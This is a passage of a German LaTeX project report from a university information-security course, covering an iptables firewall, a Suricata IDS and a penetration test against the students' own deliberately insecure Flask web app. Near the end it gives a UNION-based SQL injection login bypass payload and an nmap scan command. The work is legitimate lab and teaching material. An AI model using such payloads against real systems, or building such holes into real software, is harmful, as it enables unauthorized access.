\documentclass[
    a4paper,
    pagesize,
	pdftex,
    12pt,
]{scrartcl}
\usepackage{graphicx}
\usepackage[T1]{fontenc}
\usepackage[ngerman]{babel}
\usepackage[unicode=true]{hyperref}
\usepackage[draft=false,babel,tracking=true,kerning=true,spacing=true]{microtype}
\usepackage{enumerate}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage{float}
\usepackage{placeins}
\lstset{basicstyle=\ttfamily\footnotesize,breaklines=true}

\graphicspath{{./images/}}

\pagestyle{fancy}
\lhead{A. Tippe, C. N. Jänicke, I. Bingöl, P. Rahmani}
\rhead{
\includegraphics[height=10mm]{S04_HTW_Berlin_Logo_pos_FARBIG_RGB.jpg}}
\cfoot{\thepage}
\renewcommand{\headrulewidth}{0.6pt}
\renewcommand{\footrulewidth}{0.6pt}

\begin{document}

\begin{titlepage}
    \begin{center}
        
\includegraphics[height=25mm]{S04_HTW_Berlin_Logo_pos_FARBIG_RGB.jpg} \\
        \vspace{1.0cm}
        Dokumentation der Projektarbeit
        \vspace{1.5cm}   
        \textbf{Projektarbeit im Modul Informationssicherheit}
        \vspace{1.5cm}
        vorgelegt von \\
        \textbf{Adrian Tippe 584501} \\
        \textbf{Christoph Nicklas Jänicke 584533} \\
        \textbf{Ilkaan Bingöl 584398} \\
        \textbf{Parham Rahmani 580200} \\
        \vspace{1.5cm}    
        Berlin, \today\\
    \end{center}
\end{titlepage}

\pagenumbering{gobble}

\thispagestyle{empty}
\tableofcontents
\newpage

\pagenumbering{arabic}

\section{Einführung}
Im Rahmen  des  Kurses Informationssicherheit,  im Sommersemester 2024, sollte in einer Projektarbeit eine Firewall aufgebaut,  konfiguriert  und getestet werden. \\
In  diesem Dokument wird die Konfiguration  der  einzelnen Komponenten sowie der Penetrationstest dieser beschrieben.

\subsection{Skripts und Anwendungen}
Alle genutzten Skripts und die Python-Anwendung auf dem Webserver wurden eigens erstellt und sind in den öffentlichen GitHub-Repositories  \\
\url{https://github.com/c-jaenicke/itsec-misc} und  \url{https://github.com/parhamrahmani/Implementation_Webserver_GP3} zu finden.

\newpage
\section{Aufbau des Informationsverbunds und Informationsfluss}
Folgende Kapitel beschreiben den Aufbau des Informationsverbundes  sowie den Informationsfluss innerhalb.

\subsection{Informationsverbund}
Folgendes Diagramm zeigt den Informationsverbund:
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{aufbau-netzwerk.png}
	\caption{Aufbau des Informationsverbunds}
	\label{fig:boat1}
\end{figure}
\\
Der Server der Firewall wird in den kommenden Kapiteln als Firewall bezeichnet. Der Server des Webservers wird als Webserver bezeichnet. \\ \\
Der Laptop dient als Client, um auf den Webserver zuzugreifen und als Client für  Penetrationstests.  \\
Die Firewall, ein RPi 4, setzt eine Firewall und ein  Intrusion Detection System (IDS) um. Dieses soll den Webserver schützen und den Datenverkehr  kontrollieren.  \\
Der Webserver, ein RPi 3b, stellt eine eigens programmierte Python-Anwendung mit einem NGINX-Webserver um. \\
Der Switch, ein  NETGEAR ProSAFE GS105GE mit 5 RJ45 Ports, verbindet alle Geräte im Informationsverbund.  Zu den  gezeigten Komponenten können noch zusätzlich  2 weitere  Clients  angeschlossen werden.

\newpage
\subsection{Informationsfluss}
Folgendes Diagramm stellt den Informationsfluss im Verbund dar:
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{informationsfluss.png}
	\caption{Aufbau des Informationsverbunds}
	\label{fig:boat2}
\end{figure}
\\
Beginnend beim Client wird eine Anfrage an die Firewall gesendet, diese leitete die Anfrage, mittels einer Forwading-Regel, nachdem diese gefiltert und überprüft wurde, an den Webserver weiter. Dieser bearbeitet die Anfrage und führt ggf. eine Datenbankabfrage durch. Die Antwort wird anschließend wieder an die Firewall gesendet, welche diese an den Client weiterleitet. 
\\ \\
Der Switch wird in dem Informationsfluss nicht behandelt, da dieser lediglich die physische Verbindung der Komponenten realisiert und keine sonstige Funktion oder Filter umsetzt.

\newpage
\section{Konfiguration der Server}
Folgende Abschnitte beschreiben die Konfiguration der Firewall und des Webservers.

\subsection{Firewall}
Der Server der Firewall nutzt als Betriebssystem die 64 Bit Variante des Raspberry Pi OS, welches auf Debian 12 Bookworm basiert. 
\\ \\
Es wurde keine vorinstallierte  Software deinstalliert. 
\\
Es wurden folgende Pakete zusätzlich installiert:
\begin{table}[h!]
	\begin{center}
		\label{tab:table1}
		\begin{tabular}{l|l }
			\textbf{Name} & \textbf{Begründung} \\
			\hline
			iptables & Firewall, Alternative zur Vorinstallierten Firewall nftables \\
			nvim & Texteditor zum bearbeiten von Konfigurationsdateien \\
			zsh & Shell mit besserer Auto-Complete-Funktion \\
			tmux & Terminal Multiplexer zum einfachen Verwalten über SSH \\
			suricata & Intrusion Detection System \\
		\end{tabular}
		\caption{Zusätzlich installiere Software auf dem Firewall-Server}
	\end{center}
\end{table}
\\
Der standardmäßig aktivierte nftables-Dienst wurde deaktiviert um Konflikte mit iptables zu verhindern, siehe \nameref{config-firewall-fw} \ref{config-firewall-fw} für die Konfiguration von iptables für den Firewall-Server. \\
SSH wurde aktiviert, es wurden keine weiteren Maßnahmen eingeleitet um die Schnittstelle zu  schützen. Es wird die Standardkonfiguration verwendet. \\
Der Suricata-Dienst wurde aktiviert und wird automatisch beim Boot gestartet, siehe \nameref{config-ids} \ref{config-ids} für die Konfiguration des Intrusion Detection Systems (IDS). \\ \\
Dem Server wurde die statische IP-Adresse \lstinline[breaklines]|192.168.0.220| zugewiesen, siehe \nameref{static-ip} \ref{static-ip}.

\newpage
\subsection{Webserver}
Der Webserver nutzt als Betriebssystem die 64 Bit Variante des Raspberry Pi OS, welches auf Debian 12 Bookworm basiert. \\ \\ 
Es wurde keine vorinstallierte Software deinstalliert.\\
Folgende Software wurde zusätzlich installiert: 
\begin{table}[h!]
	\begin{center}
		\label{tab:table2}
		\begin{tabular}{l|l }
			\textbf{Name} & \textbf{Begründung} \\
			\hline
			iptables & Firewall, Alternative zur Vorinstallierten Firewall nftables \\
			nvim & Texteditor zum bearbeiten von Konfigurationsdateien \\
			zsh & Shell mit besserer Auto-Complete-Funktion \\
			tmux & Terminal Multiplexer zum einfachen Verwalten über SSH \\
			python3-pip,\\ python3-venv, \\ python3-flask,\\ python3-flask-cors, \\ python3-pymysql & Als Abhängigkeiten der Python-Anwendung \\
			mariadb-server & Datenbank für die Python-Anwendung \\
			nginx & Als Webserver für die Python-Anwendung \\
		\end{tabular}
		\caption{Zusätzlich installiere Software auf dem Webserver}
	\end{center}
\end{table}
\\
Der standardmäßig aktivierte nftables-Dienst wurde deaktiviert um Konflikte mit iptables zu verhinden, siehe \nameref{config-firewall-ws} \ref{config-firewall-ws} für die Konfiguration von iptables auf dem Webserver. \\
SSH wurde aktiviert, es wurden keine weiteren Maßnahmen eingeleitet um die Schnittstelle zu  schützen. Es wird die Standardkonfiguration verwendet. \\
Der nginx-Dienst und mariadb-Dienst wurde aktiviert und wird beim Start automatisch gestartet. \\
Die Python-Anwendung wird automatisch beim Start durch einen Cron-Job gestartet, siehe \nameref{cron-job} \ref{cron-job}. \\ \\
Dem Server wurde die statische IP-Adresse \lstinline[breaklines]|192.168.0.221| zugewiesen, siehe \nameref{static-ip} \ref{static-ip}.

\subsubsection{Python-Anwendung}
Auf dem Webserver wird eine eigens programmierte Python-Anwendung betrieben. \\ \\
Diese bietet ein einfaches HTML Login Formular, sowie einen einfachen Chat in dem Nachrichten veröffentlicht werden können. \\ \\
Die Anwendung wurde absichtlich so unsicher wie möglich entwickelt um die geplanten Attacken im Pentest zu  ermöglichen.

\subsubsection{Nginx}
Um die Python-Anwendung auf Port 80 mittels NGINX zur  Verfügung zu stellen wurde die Datei \lstinline[breaklines]|myflaskapp| im Ordner \lstinline[breaklines]|/etc/nginx/sites-available/| mit folgendem Inhalt angelegt:
\lstinputlisting[breaklines]{./scripts/setup_nginx.sh}
Für diese Datei wurde anschließend ein Link mittels 
\lstinline[breaklines]|ln -s /etc/nginx/sites-available/myflaskapp /etc/nginx/sites-enabled| erstellt. \\ \\
Es wurden keine weiteren Maßnahmen unternommen um NGINX zu härten.

\subsubsection{MariaDB}
Die Datenbank wurde mit folgenden Skript initialisiert:
\lstinputlisting[breaklines]{./scripts/setup_db.sh}
Es wird ein neue Datenbank mit dem Namen \lstinline[breaklines]|mydb| angelegt. Zusätzlich wird ein neuer Nutzer \lstinline[breaklines]|admin| angelegt. Anschließend wird die Tabelle \lstinline[breaklines]|credentials| angelegt, in welcher die Daten später gespeichert werden. In diese wird ein Testnutzer hineingeschrieben. Dem Nutzer \lstinline[breaklines]|admin| werden zuletzt alle Rechte für die neue Datenbank zugeteilt. \\ \\
Es wurden keine weiteren spezifischen Konfigurationen durchgeführt um MariaDB zu schützen.

\newpage
\section{Konfiguration der Firewall}
Folgende Abschnitte zeigen und erläutern die Konfiguration der einzelnen iptable-Paketfilter.

\subsection{Firewall}\label{config-firewall-fw}
Im folgenden werden die Anforderungen und die Konfiguration von iptables auf dem Firewall-Server erläutert.

\subsubsection{Anforderungen}
Folgende Anforderungen wurden aus dem Aufgabenblatt 1 identifiziert und werden zusätzlich für die Administration und den normalen Betrieb benötigt:
\begin{table}[h!]
	\begin{center}
		\label{tab:table3}
		\begin{tabular}{l|l |l }
			\textbf{Port} & \textbf{Protokoll} & \textbf{Dienst} \\
			\hline
			22 & TCP & SSH \\
			53 & TCP & DNS \\
			53 & UDP & DNS \\
			123 & UDP & NTP \\
			80 & TCP & HTTP \\
			443 & TCP & HTTPS \\
			143 & TCP & Outlook IMAP \\
			993 & TCP & Outlook IMAP \\
			110 & TCP & Outlook POP3 \\
			995 & TCP & Outlook POP3 \\
			587 & TCP & Outlook SMTP \\
			5938 & TCP & TeamViewer \\
			5938 & UDP & Teamviewer \\
		\end{tabular}
		\caption{Benötigte Ports auf der Firewall}
	\end{center}
\end{table}
\\
Bei den Freigegeben Ports wurden die Richtlinien und Anforderungen der jeweiligen Hersteller \cite{ashaiyengar-2023}, \cite{teamviewer-2024} beachtet. \\ \\
Port 22 wird für SSH genutzt um den Server remote zu administrieren. \\
Die Ports 53 und 123, entsprechend DNS und NTP, werden für den regulären Betrieb des Servers benötigt. NTP wird benötigt um die korrekte Zeit zu haben und das Logging und Auswerten zu vereinfachen. \\
Ports 80 und 443 werden für den HTTP-Verkehr genutzt, damit verbundene Clients, wie Mitarbeiter, Zugang zum Internet erhalten. \\
Da sich kein lokaler E-Mail- oder Exchange-Server im Verbund auf Arbeitsblatt 1 befindet, wird davon ausgegangen das es einen externen Server gibt. Die Ports 143 und 993, 110 und 995 sowie 587 ermöglichen verschiedene Wege der Anmeldung auf diesem Server. \\
TeamViewer benötigt den Port 5938 um den Zugang zu ermöglichen.

\subsubsection{Skripte}
Nach den Vorgaben aus Aufgabenblatt 1 und den identifizierten Anforderungen ergeben sich folgende Skripte. Alle Skripte müssen mit  Root Rechten ausgeführt werden.\\
Iptables Regeln wurden gemäß der iptables man page \cite{iptables-manpage} angelegt. \\ \\ 
Bei allen folgenden Skripten werden anfangs alle bestehenden Regeln gelöscht, um Konflikte mit den neuen Regeln zu verhindern. \\ \\
Folgender Skript schließt alle Ports der Firewall.
\lstinputlisting[breaklines]{./scripts/all-ports-closed.sh}
Folgender Skript öffnet die Firewall komplett und erlaubt jede Art von Datenverkehr.
\lstinputlisting[breaklines]{./scripts/all-ports-open.sh}
Folgender  Skript setzt die Anforderungen für die Umgebung um und ermöglicht das Forwarding auf den Webserver. Zusätzlich  wird  Datenverkehr auf dem  loopback-Interface erlaubt. \\
Dieser Skript wird durch einen Cron-Job direkt nach dem Boot ausgeführt, siehe \nameref{cron-job} \ref{cron-job}.
\lstinputlisting[breaklines]{./scripts/ports-prod.sh}
Um das Forwarding von IPv4 Paketen zu ermöglichen musste der Kernel-Parameter \lstinline[breaklines]|net.ipv4.ip_forward| auf 1, statt 0, gesetzt werden. \cite{ipv4forward-kernel}

\subsection{Webserver}\label{config-firewall-ws}
Im folgenden werden die Anforderungen der Firewall des Webservers beschrieben und der Skript der diese umsetzt gezeigt.

\subsubsection{Anforderungen}
Folgende Ports wurden als relevant identifiziert um dem Webserver zu administrieren und die Python-Anwendung bereitzustellen:
\begin{table}[h!]
	\begin{center}
		\label{tab:table4}
		\begin{tabular}{l|l |l }
			\textbf{Port} & \textbf{Protokoll} & \textbf{Dienst} \\
			\hline
			22 & TCP & SSH \\
			80 & TCP & HTTP \\
		\end{tabular}
		\caption{Benötigte Ports auf dem Webserver}
	\end{center}
\end{table}

\subsubsection{Skript}
Folgender  Skript setzt die iptables Regeln auf dem Webserver. Der  Skript muss mit Root Rechten ausgeführt  werden. \\
Iptables Regeln wurden gemäß der iptables man page \cite{iptables-manpage} angelegt. \\
Der Skript wird direkt am Boot mittels eines Cron-Jobs ausgeführt, siehe \nameref{cron-job} \ref{cron-job}.
\lstinputlisting[breaklines]{./scripts/ports-webserver.sh}
Zuerst werden  alle bestehenden Regeln gelöscht, um Konflikte vorzubeugen. \\
Der Skript ermöglicht den Managementzugang mittels SSH sowie Pings auf und vom  Server. \\
Der HTTP-Verkehr wird auf die IP-Adresse \lstinline[breaklines]|192.168.0.220|, die Firewall, beschränkt. Anderen Clients ist es also nicht möglich den Webserver direkt anzufragen. \\
Besonders relevant ist es den Verkehr auf dem Loopback-Interface zuzulassen, da die Python-Anwendung dies benötigt um auf die Datenbank zuzugreifen.

\newpage
\section{Konfiguration des Intrusion Detection Systems}\label{config-ids}
Es wurde sich für das Intrusion Detection System (IDS) Suricata entschieden, da bereits Vorerfahrung bestanden. \\ \\
Bei der Installation wurde der Anleitung des Herstellers \cite{suricata-quickstart} befolgt. \\
In der Konfigurationsdatei \lstinline[breaklines]|/etc/suricata/suricata.yaml| wurde das zu überwachende Interface auf \lstinline[breaklines]|eth0| gestellt. Es ergeben sich folgende Capture Settings:
\begin{lstlisting}[breaklines]
af-packet:
	- interface: eth0
	  cluster-id: 99
	  cluster-type: cluster_flow
	  defrag: yes
	  use-mmap: yes
	  tpacket-v3: yes
\end{lstlisting}
Darüber hinaus wurden die aktuellen Regeln heruntergeladen, installiert und aktiviert \cite{suricata-rulemanagement}, mittels \lstinline[breaklines]|sudo suricata-update|. \\
Um diese zu aktivieren wurde gemäß der Anleitung des Herstellers der Pfad der Regeln, in der Datei \lstinline[breaklines]|/etc/suricata/suricata.yaml| geändert auf \\ \lstinline[breaklines]|default-rule-path: /var/lib/suricata/rules|. \\ \\
Weitere Konfiguration wurden nicht durchgeführt. \\ \\
Das IDS wurde anschließend getestet. Dafür wurde der Befehl
\lstinline[breaklines]|curl http://testmynids.org/uid/index.html|
ausgeführt. Dadurch wurde eine statische HTML-Datei aufgerufen mit dem Inhalt 
\lstinline[breaklines]|uid=0(root) gid=0(root) groups=0(root)| 
Dieser String stellt eine mögliche Ausgabe des \lstinline[breaklines]|id| Befehls dar, welcher genutzt werden kann um den derzeitigen Nutzer und die Gruppen des Nutzers zu erhalten. \\ \\
Das IDS sollte hier ausschlagen, da die Ausgabe bedeuten würde, das jemand remote den \lstinline[breaklines]|id| Befehl als root ausgeführt hat, was bedeuten würde das jemand vollen Zugriff auf das System hat. \\ \\
Ob das IDS dies erkannt hat wurde mit dem Befehl
\lstinline[breaklines]|sudo tail /var/log/suricata/fast.log| 
überprüft. Die \lstinline[breaklines]|fast.log| Datei enthält die Warnungen des IDS. 
Die letzte Zeile der Datei war \lstinline[breaklines]|[1:2100498:7] GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} <ip> -> 192.168.0.220:<port>|. Dies zeigt das der Datenverkehr als potenzieller Datenabfluss erkannt wurde.

\newpage
\section{Penetrationstest des Informationsverbunds}
Folgende Kapitel befassen sich mit der Bewertung der Sicherheit und den Ergebnissen der Pentests.

\subsection{NMAP}
Sowohl der Webserver als auch die Firewall wurden mit dem Befehl  \lstinline[breaklines]|sudo nmap -sS -sC -O -p- <ip des ziels>| mittels NMAP gescanned. 
Folgende Parameter wurden genutzt \cite{nmap-manual}:
\begin{enumerate}
	\item \lstinline[breaklines]|-sS|: Führe einen ''SYN Scan'' bzw. ''Stealth Scan'' durch. Damit wurden die offenen TCP-Ports gescanned. 
	\item \lstinline[breaklines]|-sC|: Führe einen ''Script Scan'' durch. Hierbei werden verschiedene Scripte eingesetzt um mehr Informationen über verschiedene Ports und Dienste zu erhalten.
	\item \lstinline[breaklines]|-O|: Versuche das Betriebssystem des Ziels zu erhalten.
	\item \lstinline[breaklines]|-p-|: Scanne alle Ports von 1 bis 65535.
\end{enumerate} 
Folgende Ergebnisse ergab der NMAP-Scan der Firewall und des Webservers: \\ \\
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=15cm]{nmap-scan-firewall.png}
	\caption{Ergebnis NMAP-Scan Firewall}
	\label{fig:nmapfirewall}
\end{figure} 
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=15cm]{nmap-scan-webserver.png}
	\caption{Ergebnis NMAP-Scan Webserver}
	\label{fig:nmapwebserver}
\end{figure}
\\ \\
Hervorzuheben ist, dass der Scan der Webservers nur den Port 22, SSH, gefunden hat, nicht den Port 80 für den NGINX-Server. Die Regel, das Port 80 auf dem Webserver nur auf Anfragen von der IP-Adresse der Firewall annimmt funktioniert dementsprechend.
\\ \\
Zudem war Suricata in der Lage den NMAP-Scan, den Script-Scan, zu entdecken und zu melden.
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=17cm]{suricata-detection-nmap-scan.png}
	\caption{Logs von Suricata bei der Durchführung des NMAP-Scans}
	\label{fig:nmapsuricata}
\end{figure}

\subsection{SQL Injection}
Um die Anfälligkeit der Webanwendung für SQL Injection zu testen, wurde ein Angriff auf das Login-Formular simuliert. Zunächst wurde ein einfacher Test mit dem Benutzernamen \lstinline[breaklines]|';''| und einem beliebigen Passwort durchgeführt. Dies führte zu einem internen Serverfehler (HTTP 500), der wertvolle Informationen über die zugrunde liegende Datenbankabfrage preisgab.

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{sql-login-error-message.png}
    \caption{Fehlermeldung beim Login in der Webanwendung}
    \label{fig:sql-login-error-message}
\end{figure}

\noindent Die Analyse des Fehlerlogs in den Entwicklertools des Browsers offenbarte die verwendete SQL-Abfrage aus der Webanwendung.

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{sql-login-error-response.png}
    \caption{Response der Webanwendung}
    \label{fig:sql-login-error-response}
\end{figure}

\noindent Mit diesem Wissen wurde eine angepasste Injection erstellt:
\begin{lstlisting}[breaklines]
' union select 1,'itsec','attack'; -- '
\end{lstlisting}
Diese Eingabe als Benutzername, kombiniert mit \lstinline|attack| als Passwort, ermöglicht eine unbefugte Anmeldung als \lstinline|itsec| oder potenziell als jeder andere Benutzer.

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{sql-injection-login-attempt.png}
    \caption{Login mit SQL Injection}
    \label{fig:sql-injection-login-attempt}
\end{figure}

\begin{figure}[H]
    \centering
